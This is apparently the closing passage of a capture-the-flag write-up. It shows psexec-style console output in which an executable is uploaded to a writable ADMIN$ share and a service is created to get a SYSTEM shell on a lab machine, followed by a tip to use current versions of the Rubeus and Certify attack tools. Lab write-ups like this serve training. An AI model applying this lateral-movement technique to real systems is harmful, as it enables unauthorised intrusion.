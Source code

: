 ```

[*] Requesting shares on 10.10.11.102.....
[*] Found writable share ADMIN$
[*] Uploading file UVxKjrNu.exe
[*] Opening SVCManager on 10.10.11.102.....
[*] Creating service Iiyl on 10.10.11.102.....
[*] Starting service Iiyl.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2114]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
The End!
Awesome box!
PS: Make sure you're using latest Rubeus and Certify as those were upgraded not so long ago!
